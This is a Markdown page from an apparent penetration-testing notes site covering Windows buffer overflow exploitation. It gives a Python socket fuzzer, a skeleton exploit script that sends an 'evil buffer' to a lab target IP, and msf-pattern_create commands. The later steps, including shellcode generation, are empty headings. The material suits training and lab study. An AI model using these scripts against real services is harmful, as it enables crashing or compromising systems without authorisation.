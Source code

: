 ```yaml
---
title: Buffer Overflow
layout: default
nav_order: 3
parent: Exploitation

---
```


# Buffer Overflow
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### **Windows Buffer Overflow**
Useful Reference - https://liodeus.github.io/2020/08/11/bufferOverflow.html#mona-configuration

#### <ins>Fuzzing Application</ins>
- Fuzzing Script

```python
#!/usr/bin/env python3
import argparse, socket, time, sys

# Add arguments for IP and port
parser = argparse.ArgumentParser()
parser.add_argument("ip", help="IP Address")
parser.add_argument("port",help="Port")
args = parser.parse_args()

ip = args.ip
port = args.port
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((args.ip, args.port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


- Save `fuzzer.py` and make it executable

- Record the number at which the number of bytes where the application crash. 

- Generate a unique string using `msfvenom` that is the length of the bytes recorded to be at the point the program crashed


```bash
msf-pattern_create -l $BYES
# Example
msf-pattern_create -l 1800
```

#### <ins>Crash Application</ins>
- Exploit Script

```python
import socket, argparse

parser = argparse.ArgumentParser()
parser.add_argument("ip", help="IP Address")
parser.add_argument("port",help="Port")
args = parser.parse_args()

ip = "10.10.105.251"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
- Plug in the `msf_pattern-create` string inside of the `payload` variable of `exploit.py`

Example: 
```bash
padding = 
```

#### <ins>Finding EIP</ins>
#### <ins>Controlling ESP</ins>
#### <ins>Finding Bad Characters</ins>
#### <ins>Finding the JMP ESP</ins>
#### <ins>Generating Shell Code</ins>
#### <ins>Exploitation</ins>


### Linux Buffer Overflow
1.
2.
3.
4.
5.
6

Tracing through a Linux ELF executable

Use `readelf` to inspect function of executable
```bash
readelf -s <executable>
```

Tracing through a Windows executable
Use `objdump` to inspect function of executable
```bash
objdump -D <executable>.exe
```

